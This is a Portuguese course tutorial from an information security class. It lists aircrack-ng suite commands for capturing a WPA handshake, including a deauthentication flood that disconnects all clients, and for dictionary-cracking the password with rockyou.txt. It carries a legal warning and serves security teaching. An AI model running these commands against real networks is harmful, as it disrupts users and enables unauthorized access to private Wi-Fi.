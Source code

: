 # <p align="center">Disciplina de Segurança da Informação do Instituto Federal do Piaui</p>
# <p align="center">ATAQUE WPA CAPTURANDO HANDSHAKE COM FORÇA BRUTA
</p>

---

## <p style="color:red" align="justify">Atenção: Tentar realizar esse procimento em uma rede não autorizada resulta-se em crime. Este procedimento deve ser usado apenas para fins educacionais e testes de segurança em redes que você tem permissão para acessar.</p>

## <p align="justify">Este tutorial mostra o passo a passo para capturar o handshake WPA e tentar quebrar a senha da rede usando um dicionário de senhas.</p>
---

### Comandos a serem seguidos
- [ ] **ip address**
    - Comando para identificar e analisar as interfaces de redes
- [ ] **iwconfig**
    - Comando específico para identificar e analisar interfaces sem fio
- [ ] **sudo airmon-ng check kill**
    - Comando serve para parar processos que atrapalham o modo monitor da placa Wi-Fi.
- [ ] **sudo airmon-ng start wlan0**
    - Comando serve para colocar a placa Wi-Fi em modo monitor.
- [ ] **iwconfig**
    - somente para conferir se está em modo monitor
- [ ] **sudo airodump-ng wlan0mon**
    - comando serve para iniciar a captura de pacotes Wi-Fi com a interface em modo monitor
- [ ] **sudo airodump-ng wlan0mon -c 1 --bssid AA:83:89:E8:B6:CA**
    - comando serve focar em uma rede específica e capturar o Handshake WPA (se alguém se conectar), pacotes de dados e informações dos dispositivos conectados
- [ ] **sudo airodump-ng -w arquivocaptura -c 1 --bssid AA:83:89:E8:B6:CA wlan0mon** (permanecer em execução)
    - Esse comando foca exclusivamente na rede Wi-Fi alvo e salva os pacotes capturados

- [ ] **sudo aireplay-ng --deauth 0 -a AA:83:89:E8:B6:CA wlan0mon**
    - é usado para forçar a desconexão de todos os clientes conectados a uma rede Wi-Fi, com o objetivo de capturar o handshake WPA/WPA2 quando eles se reconectarem.

- [ ] **sudo aircrack-ng arquivocaptura-01.cap -w ~/rockyou.txt**
    - Lê o arquivo .cap onde está o handshake WPA/WPA2 e testa cada senha do arquivo rockyou.txt e compara com os dados do handshake se a senha correta estiver na lista será exibida na tela. Fim!
